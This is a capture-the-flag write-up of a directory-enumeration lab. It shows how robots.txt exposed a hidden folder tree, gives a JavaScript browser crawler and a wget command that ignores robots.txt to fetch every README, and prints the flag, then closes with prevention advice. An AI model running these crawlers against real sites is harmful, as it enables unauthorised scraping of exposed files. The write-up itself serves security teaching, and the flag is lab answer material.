 # Directory Enumeration Vulnerability

## Overview
Sensitive info was hidden in deeply nested folders under `/.hidden/`. No real security—just "security through obscurity."

---

## How It Works

1. **robots.txt** gave clues:
   ```
   Disallow: /whatever
   Disallow: /.hidden
   ```
2. **Exploring `/.hidden/`** revealed:
   - README files and 3 subfolders at each level, repeating for 3 levels.

---

## Exploitation

### **Method 1: JavaScript Directory Crawler**

- Run this in your browser console:

  ```javascript
  async function findFlag() {
    const baseUrl = new URL('./.hidden/', window.location.href).href;
    const queue = [{ url: baseUrl, depth: 0 }];
    const processedUrls = new Set();
    while (queue.length > 0) {
      const { url, depth } = queue.shift();
      if (processedUrls.has(url) || depth > 3) continue;
      processedUrls.add(url);
      const response = await fetch(url);
      const html = await response.text();
      const doc = new DOMParser().parseFromString(html, 'text/html');
      for (const a of Array.from(doc.querySelectorAll('a'))) {
        if (a.textContent.trim() === 'README') {
          const readmePath = new URL(a.getAttribute('href'), url).href;
          const content = await (await fetch(readmePath)).text();
          if (content.includes('flag')) {
            console.log(`🚩 FLAG FOUND: ${content}`);
          }
        }
      }
      for (const a of Array.from(doc.querySelectorAll('a'))) {
        if (a.getAttribute('href').endsWith('/') && a.textContent !== '../') {
          queue.push({ url: new URL(a.getAttribute('href'), url).href, depth: depth + 1 });
        }
      }
    }
  }
  findFlag();
  ```

---

### **Method 2: Shell Script**

- Download everything and search for the flag:
  ```bash
        wget -r -np -e robots=off http://<IP_ADDRESS>/.hidden/

        grep -r "flag" .hidden/
  ```

---

## Flag

`d5eec3afc10840462a44b987e7b9c283`

---

## Security Impact

- **Info Disclosure:** Sensitive files can be found by persistent attackers.
- **Automated Scraping:** Easy for bots to find everything.
- **Obscurity ≠ Security:** No real controls in place.

---

## Prevention

1. **Never rely on directory structure for security**
2. **Require authentication for sensitive data**
3. **Use proper authorization checks**
4. **robots.txt is NOT a security tool**
5. **Disable directory listing on servers**

---

